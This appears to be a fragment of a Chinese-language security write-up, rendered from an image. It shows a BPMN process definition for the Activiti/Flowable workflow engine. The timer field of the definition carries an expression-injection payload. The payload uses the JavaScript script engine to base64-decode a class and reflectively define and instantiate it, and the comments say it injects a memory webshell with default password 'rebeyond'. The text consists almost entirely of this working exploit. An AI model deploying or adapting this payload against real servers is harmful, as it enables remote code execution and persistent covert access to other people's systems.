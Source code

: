 ```java
    }
}
```

### 表达式加载class

```xml
<?xml version="1.0" encoding="UTF-8"?>
<definitions xmlns="http://www.omg.org/spec/BPMN/20100524/MODEL"
  xmlns:activiti="http://activiti.org/bpmn"
  typeLanguage="http://www.w3.org/2001/XMLSchema"
  expressionLanguage="http://www.w3.org/1999/XPath"
  targetNamespace="http://www.activiti.org/test">

  <process id="meeting" name="meeting" isExecutable="true">
    <startEvent id="startEvent1" name="Start" activiti:initiator="host">
      <timerEventDefinition>
        <!-- 使用flowable注入内存马，默认连接密码rebeyond -->
        <!-- 其中实现类为A12345 -->
        <timeDuration>
          ${"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval('
            var contextClassLoader = java.lang.Thread.currentThread().getContextClassLoader();
            var bytecodeBase64 = \'yv66vgAAADQBTQoAVQCt...[指定class的base64编码]\';
            var bytecode;
            try {
              var clsString = contextClassLoader.loadClass(\'java.lang.String\');
              var clsBase64 = contextClassLoader.loadClass(\'java.util.Base64\');
              var clsDecoder = contextClassLoader.loadClass(\'java.util.Base64$Decoder\');
              var decoder = clsBase64.getMethod(\'getDecoder\').invoke(null);
              bytecode = clsDecoder.getMethod(\'decode\',clsString).invoke(decoder,bytecodeBase64);
              var clsClassLoader = contextClassLoader.loadClass(\'java.lang.ClassLoader\');
              var clsByteArray = (new java.lang.String(\'c\').getBytes().getClass());
              var clsInt = java.lang.Integer.TYPE;
              var defineClass = clsClassLoader.getDeclaredMethod(\'defineClass\', [clsByteArray, clsInt, clsInt]);
              defineClass.setAccessible(true);
              java.lang.System.out.println(222);
              java.lang.System.out.println(bytecode.getClass().getName());
              var clazz = defineClass.invoke(contextClassLoader, bytecode, new java.lang.Integer(0), new java.lang.Integer(bytecode.length));
              java.lang.System.out.println(111);
              clazz.newInstance();
            } catch (ee) {
              java.lang.System.out.println(ee);
              ee.printStackTrace();
            }
          ')}
        </timeDuration>
      </timerEventDefinition>
    </startEvent>
    <userTask id="userTask2" name="meeting2" activiti:assignee="${person}" activiti:formKey="meeting/signate">
      <multiInstanceLoopCharacteristics isSequential="false" activiti:collection="people"
        activiti:elementVariable="person"></multiInstanceLoopCharacteristics>
        </userTask>

        <userTask id="usertask3" name="meeting3" activiti:assignee="${host}" activiti:formKey="meeting/input">

        </userTask>

    </process>
```